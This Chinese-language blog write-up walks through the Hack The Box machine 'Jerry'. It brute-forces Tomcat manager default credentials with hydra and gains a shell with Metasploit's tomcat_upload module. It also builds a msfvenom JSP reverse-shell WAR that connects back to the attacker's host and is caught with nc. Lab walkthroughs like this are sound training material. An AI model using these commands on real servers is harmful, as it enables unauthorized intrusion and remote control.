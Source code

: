 ```yaml
---
title: Jerry
date: 2021-12-24 11:29:39
tags: Hack The Box
categoreies: 中间件
---
```


## 靶机信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5f1dc82530e485e91e914d59c62f9ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 信息收集

我们可以看到，目标主机只开放了8080端口，而且版本还是`7.0.88`的
![在这里插入图片描述](https://img-blog.csdnimg.cn/12b2a2ded3544b248ce0ae24e4c30139.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们立马登录tomcat页面，并且尝试账户和密码都是admin，看看能不能登录成功，结果是失败的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/14569a31b1e04d76855654582e15e833.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1c59a404d30477d9434d5ca81214227.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们下载`seclists`这个工具，对tomcat的默认用户名和密码进行暴力破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/4573275f27314e41997be90a187c528b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们使用hydra工具对账号密码进行破解，发现账号是tomcat，密码是s3cret

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e489a5e1395436f87bbc2c1c05db04b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### MSF获取权限

```bash
search tomcat_mgr
use exploit/multi/http/tomcat_upload
show options
set rhosts 10.10.10.95
set lhost 10.10.14.11
set httpusername tomcat
set httppassword s3cret
set rport 8080
exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/405b1654a30e4fd8b5ff405938d24a51.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们获取一个shell，发现已经是最高权限了
![在这里插入图片描述](https://img-blog.csdnimg.cn/efd9843d30e5431cbe6ae1408fbcb011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查看到flag值了
![在这里插入图片描述](https://img-blog.csdnimg.cn/89ecac8618f24fdf9edd6cf96a419036.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### NC反弹shell

首先我们先准备一个木马

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1234 -f war > shell.war
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4abdde92c484b46ac8782a2c62da4fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用账号密码登录进部署页面，并将生成的木马部署进tomcat服务器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9dd05049c33f45cf971a5f70a9a6d2e8.png)
然后我们启动nc进行监听，并且在浏览器上浏览我们刚刚上传的war包，反弹shell成功。
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbcd897e89c149549ead8a54352163ae.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/488c679d14e64be28972f71dab63504a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
